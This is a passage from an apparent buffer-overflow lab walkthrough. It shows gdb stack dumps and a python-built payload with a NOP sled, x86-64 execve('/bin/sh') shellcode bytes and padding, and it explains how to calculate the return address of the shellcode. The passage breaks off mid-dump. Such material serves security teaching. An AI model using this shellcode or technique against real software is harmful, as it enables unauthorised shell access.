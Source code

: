 ```sh
(gdb) x/100x $rsp-200
0x7fffffffe228: 0x00400450      0x00000000      0xffffe3e0      0x00007fff
0x7fffffffe238: 0x00400561      0x00000000      0xf7dce8c0      0x00007fff
0x7fffffffe248: 0xffffe656      0x00007fff      0x41414141      0x41414141
0x7fffffffe258: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe268: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe278: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe288: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe298: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe2a8: 0x41414141      0x41414141      0x41414141      0x622fb948
0x7fffffffe2b8: 0x732f6e69      0xc1481168      0xc14808e1      0x485108e9
0x7fffffffe2c8: 0x48243c8d      0x3bb0d231      0x4242050f      0x42424242
0x7fffffffe2d8: 0x42424242      0x43434242      0x43434343      0x00007f00
0x7fffffffe2e8: 0x00400590      0x00000000      0xffffe3e8      0x00007fff
0x7fffffffe2f8: 0x00000000      0x00000002      0x004005a0      0x00000000
0x7fffffffe308: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe318: 0xffffe3e8      0x00007fff      0x00040000      0x00000002
0x7fffffffe328: 0x00400564      0x00000000      0x00000000      0x00000000
0x7fffffffe338: 0x14cb65ee      0xa528a1f1      0x00400450      0x00000000
0x7fffffffe348: 0xffffe3e0      0x00007fff      0x00000000      0x00000000
0x7fffffffe358: 0x00000000      0x00000000      0xd9ab65ee      0x5ad75e8e
0x7fffffffe368: 0x404f65ee      0x5ad74e39      0x00000000      0x00000000
0x7fffffffe378: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe388: 0xffffe400      0x00007fff      0xf7ffe130      0x00007fff
0x7fffffffe398: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffe3a8: 0x00000000      0x00000000      0x00000000      0x00000000
```

Our shellcode starts on address line `0x7fffffffe2a8` on the 4th column.

Each column is 4-bytes wide, so to reference it, we need to start at `0x7fffffffe2a8` add 3 x 4 = 12 bytes, 12 in hex is `0xC`.

So the return address for the start of our shellcode is `0x7fffffffe2a8` + `0xC` = `0x7fffffffe2b4`

Use a [hex calculator](https://www.calculator.net/hex-calculator.html?number1=7fffffffe2a8&c2op=%2B&number2=C&calctype=op&x=57&y=20)

:::note

This was just an exercise if seeing how the A's and shellcode land in memory and how you can calculate a memory address (in hex) for a certain point in your payload. DONT do this to find your shellcode return address, use the NOP sled method instead.

:::

### NOP slide shellcode address

```sh
(gdb) run $(python -c "print '\x90'*100 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + 'B'*12 + 'C'*6")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print '\x90'*100 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + 'B'*12 + 'C'*6")
Here's a program that echo's out your input
����������������������������������������������������������������������������������������������������H�/bin/shH�H�QH�<$H1Ұ;BBBBBBBBBBBBCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400595 in main ()
(gdb) x/100x $rsp-200
0x7fffffffe228: 0x00400450      0x00000000      0xffffe3e0      0x00007fff
0x7fffffffe238: 0x00400561      0x00000000      0xf7dce8c0      0x00007fff
0x7fffffffe248: 0xffffe656      0x00007fff      0x90909090      0x90909090
```